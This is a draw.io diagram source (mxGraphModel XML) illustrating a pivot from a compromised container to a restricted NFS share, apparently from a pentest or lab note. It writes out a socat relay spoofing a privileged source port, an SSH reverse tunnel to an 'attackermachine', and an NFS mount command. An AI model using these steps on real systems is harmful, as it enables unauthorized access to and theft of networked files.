

The diagram above was exported from draw.io. Its source (the exported page's mxGraphModel, read from the mxfile embedded in the PNG):
<mxGraphModel dx="1501" dy="932" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="1100" pageHeight="850" math="0" shadow="0">
  <root>
    <mxCell id="0" />
    <mxCell id="1" parent="0" />
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-1" value="&lt;div&gt;Compromised&amp;nbsp;container&lt;/div&gt;" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="30" y="40" width="160" height="80" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-3" value="NFS Share" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="1115" y="50" width="120" height="60" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-7" value="Open ports" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="1060" y="140" width="230" height="90" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-8" value="&lt;div&gt;- 0.0.0.0:2049 only from source port lower than 1024&lt;/div&gt;" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="Gu0qu15IkMi0OSgl6HGE-7">
      <mxGeometry y="30" width="230" height="60" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-11" value="" style="endArrow=classic;startArrow=classic;html=1;rounded=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="Gu0qu15IkMi0OSgl6HGE-7" target="Gu0qu15IkMi0OSgl6HGE-3">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="510" y="230" as="sourcePoint" />
        <mxPoint x="560" y="180" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-12" value="Open ports" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="10" y="220" width="170" height="70" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-13" value="- 127.0.0.1:2049 from socat" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="Gu0qu15IkMi0OSgl6HGE-12">
      <mxGeometry y="30" width="170" height="40" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-16" value="" style="endArrow=classic;startArrow=classic;html=1;rounded=0;entryX=0.444;entryY=0.963;entryDx=0;entryDy=0;entryPerimeter=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="Gu0qu15IkMi0OSgl6HGE-12" target="Gu0qu15IkMi0OSgl6HGE-1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="140" y="220" as="sourcePoint" />
        <mxPoint x="190" y="170" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-17" value="socat TCP-LISTEN:2049,fork,reuseaddr TCP:NFSSERVER:2049,sourceport=532" style="shape=parallelogram;perimeter=parallelogramPerimeter;whiteSpace=wrap;html=1;fixedSize=1;" vertex="1" parent="1">
      <mxGeometry x="340" y="48" width="500" height="60" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-18" value="" style="endArrow=classic;html=1;rounded=0;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="Gu0qu15IkMi0OSgl6HGE-17" target="Gu0qu15IkMi0OSgl6HGE-3">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="330" y="360" as="sourcePoint" />
        <mxPoint x="550" y="360" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-20" value="&lt;div&gt;nfsshare.local:2049. Source port: 532&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
      <mxGeometry x="870" y="48" width="220" height="30" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-21" value="" style="endArrow=classic;html=1;rounded=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;exitX=0;exitY=0.5;exitDx=0;exitDy=0;" edge="1" parent="1" source="Gu0qu15IkMi0OSgl6HGE-17" target="Gu0qu15IkMi0OSgl6HGE-1">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="230" y="200" as="sourcePoint" />
        <mxPoint x="280" y="150" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-22" value="&lt;div&gt;Bind 127.0.0.1:2049&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
      <mxGeometry x="210" y="48" width="130" height="30" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-23" value="ssh user@attackermachine -R 2049:127.0.0.1:2049" style="shape=parallelogram;perimeter=parallelogramPerimeter;whiteSpace=wrap;html=1;fixedSize=1;" vertex="1" parent="1">
      <mxGeometry x="220" y="490" width="340" height="60" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-24" value="" style="endArrow=classic;html=1;rounded=0;exitX=1;exitY=0.75;exitDx=0;exitDy=0;entryX=0;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="Gu0qu15IkMi0OSgl6HGE-1" target="Gu0qu15IkMi0OSgl6HGE-23">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="280" y="350" as="sourcePoint" />
        <mxPoint x="410" y="210" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-25" value="Attacker machine" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="695" y="490" width="120" height="60" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-26" value="&lt;div&gt;Brings port 127.0.0.1:2049 from compromised container to 127.0.0.1:2049 on the attacker machine&lt;/div&gt;" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
      <mxGeometry x="115" y="550" width="550" height="30" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-27" value="" style="endArrow=classic;html=1;rounded=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="Gu0qu15IkMi0OSgl6HGE-23" target="Gu0qu15IkMi0OSgl6HGE-25">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="700" y="430" as="sourcePoint" />
        <mxPoint x="750" y="380" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-28" value="Open ports" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
      <mxGeometry x="685" y="590" width="140" height="90" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-29" value="&lt;div&gt;- 127.0.0.1:2049&lt;/div&gt;" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="Gu0qu15IkMi0OSgl6HGE-28">
      <mxGeometry y="30" width="140" height="60" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-30" value="" style="endArrow=classic;startArrow=classic;html=1;rounded=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;" edge="1" parent="1" source="Gu0qu15IkMi0OSgl6HGE-28" target="Gu0qu15IkMi0OSgl6HGE-25">
      <mxGeometry width="50" height="50" relative="1" as="geometry">
        <mxPoint x="600" y="410" as="sourcePoint" />
        <mxPoint x="650" y="360" as="targetPoint" />
      </mxGeometry>
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-38" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0;exitY=0.5;exitDx=0;exitDy=0;entryX=1;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="Gu0qu15IkMi0OSgl6HGE-35" target="Gu0qu15IkMi0OSgl6HGE-25">
      <mxGeometry relative="1" as="geometry" />
    </mxCell>
    <mxCell id="Gu0qu15IkMi0OSgl6HGE-35" value="sudo mount -t nfs4 127.0.0.1:/stuff /mnt" style="shape=parallelogram;perimeter=parallelogramPerimeter;whiteSpace=wrap;html=1;fixedSize=1;" vertex="1" parent="1">
      <mxGeometry x="900" y="480" width="280" height="80" as="geometry" />
    </mxCell>
  </root>
</mxGraphModel>